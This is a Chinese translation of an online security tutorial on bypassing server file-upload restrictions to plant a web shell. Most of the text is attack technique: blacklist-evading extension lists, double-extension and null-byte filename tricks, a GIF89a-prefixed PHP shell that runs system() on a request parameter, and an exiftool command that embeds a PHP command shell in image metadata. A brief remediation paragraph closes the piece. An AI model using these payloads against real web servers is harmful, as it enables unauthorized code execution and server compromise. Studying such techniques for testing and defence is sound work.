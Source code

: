# 绕过服务器上传限制

> 原文：<https://infosecwriteups.com/bypass-server-upload-restrictions-69054c5e1be4?source=collection_archive---------0----------------------->

## 如何使用文件在网站上获得外壳[教程]

![](img/9111589b065428dc97532f4fa4ff1776.png)

亚历山大·沙托夫在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

U ser 上传的文件可能会给黑客提供一个进入网络应用的潜在入口，这使得安全处理这些文件成为管理员和安全团队的一项极其重要的任务。如果这些文件未经正确验证，远程攻击者可能会在 web 服务器上上传恶意文件，从而导致严重的安全漏洞。恶意文件上传是不正确的文件验证的结果。这会导致代码执行。根据 ***OWASP*** 的说法，不受限制的文件上传漏洞可以允许两种不同类型的攻击。通常 web 应用程序有限制，试图使这种攻击更加困难，但黑客可以使用各种技术来击败文件上传限制，并获得反向外壳。

# 黑名单和旁路 1

黑名单是一种保护类型，在这种情况下，某些数据字符串(在许多情况下是特定的扩展名)被明确禁止发送到 web 应用服务器。这听起来像是防止危险的扩展(通常是外壳)上传到您的网站的正确解决方案，但它们并不难绕过。

这里有一些替代的扩展，可以用来绕过黑名单过滤器。

```
php.txt, .sh, .pht, .phtml, .phP, .Php, .php7, .php%00.jpeg, .cgi
```

web shells 的另一个流行扩展是 *JSP —* 这是服务器生成的网页文件。它类似于。ASP 或者。PHP 文件，但是包含 Java 代码而不是 ActiveX 或 PHP

```
.MF, .jspx, .jspf, .jsw, .jsv, xml, .war, .jsp, .aspx
```

# 白名单和旁路 2

方法二是使用白名单。白名单顾名思义，是与黑名单相反，这些服务器白名单将只接受 jpeg，gif，png，jpg 等。这听起来可能是比使用黑名单更好的保护服务器的方法，但是仍然可以使用一些技巧来绕过它。这种方法也有一些陷阱。它们是允许用户绕过这种保护的服务器端错误的记录，其中之一是:

[**IIS 6 分号漏洞**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-4444) 是由一个解析器漏洞造成的，该漏洞使得用户能够上传和执行具有诸如 testing.asp 等名称的文件；。使用 jpeg 文件交换格式存储的编码图像文件扩展名

使用带有照片扩展名的反向外壳，黑客可以欺骗 web app 接受一个也带有 JPG/PNG 扩展名的 php 文件:

```
payload.php.jpg
```

同样使用*空字符注入*我们可以绕过白名单过滤器，使文件保存时字符被忽略，在禁止的扩展名和允许的扩展名之间注入空字符会导致绕过:

```
payload.php%00.jpg OR payload.php\x00.jpg
```

通常，如果白名单只接受图片，它也可以接受 ***gif*** 文件。添加**gif 89 a；**到您的 shell 的最顶层可能会帮助您绕过限制，让您执行 shell。

```
GIF89a; <?php system($_GET['cmd']); ?>
```

# Exif 数据、ExifTool 和旁路 3

下一种绕过文件上传限制的方法是利用任何图像中的 Exif 数据，比如位置、名称、使用的相机等等。每当上传图像时，web 应用程序可以执行插入包含反向外壳有效载荷的注释。

你可以使用像 **exiftool** 这样的工具添加你的有效载荷

将一个简短的命令 shell 作为信息插入到您的照片中可能看起来像这样:

```
$ exiftool -DocumentName="<h1>chiara<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" pwtoken.jpeg
```

您可以使用 **Exiftool** 查看照片中新添加的评论。

```
$ exiftool pwtoken.jpeg
```

然后只需添加一个 ***shell*** 扩展名，使其成为 web app server 中的一次可执行文件:

```
$ mv catphoto.jpg catphoto.php\x00.jpg
```

将它与本文开头提到的方法一起使用，绕过黑名单和/或白名单。

# 补救

限制可上传的文件类型:检查文件扩展名，只允许上传某些文件。使用白名单而不是黑名单。检查双扩展名，如. php.png。检查没有文件名的文件，如。htaccess(在 ASP.NET 上，检查 web.config 之类的配置文件)。更改上传文件夹的权限，使其中的文件不可执行。如果可能，重命名上传的文件。